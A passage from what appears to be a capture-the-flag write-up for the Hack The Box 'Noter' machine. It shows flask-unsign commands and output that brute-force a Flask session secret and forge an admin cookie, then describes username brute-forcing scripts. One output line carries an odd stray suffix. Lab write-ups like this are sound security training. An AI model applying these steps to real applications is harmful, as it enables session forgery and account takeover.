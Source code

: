 <p>Using <a href="https://pypi.org/project/flask-unsign/">flask-unsign</a>, we are able to brute force the "secret" key.</p>

```sh
$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiamF5ZGVuIn0.Yn0P8Q.XaXAKhvjJ6uPpxdUw1V0KPitAW8'
[*] Session decodes to: {'logged_in': True, 'username': 'jayden'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2048): -----BEGIN PRIVATE KEY-----***
[+] Found secret key after 16768 attempts-FF35-D147FB
'secret123'
```

<p>Then confirmed that this was the secret key for signing cookies, by generating my own cookie again and then confirming still able to login.</p>

```sh
$ flask-unsign --sign --cookie "{'logged_in': True, 'username' :'admin'}" --secret secret123
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YoIo2Q.spOR6sUSMWZOX5_xKq9iiwkfTFk
```
![image](/img/2022/05/image-4.png){:height="65%" width="65%"}

<p>With this we can now start brute forcing usernames to try find valid usernames.</p>

<p>To make this brute forcing easier, I wrote this quick Flask API that generates a cookie and returns the cookie in GET response body.<br><a href="https://github.com/Jayden-Lind/HTB-Noter/blob/main/cookie_flask.py">cookie_flask.py</a> - This creates an API endpoint on port 5000.<br><a href="https://github.com/Jayden-Lind/HTB-Noter/blob/main/login.py">login.py</a> - This uses the above cookie_flask.py to grab a cookie, then attempt to load the dashboard with that cookie.</p>
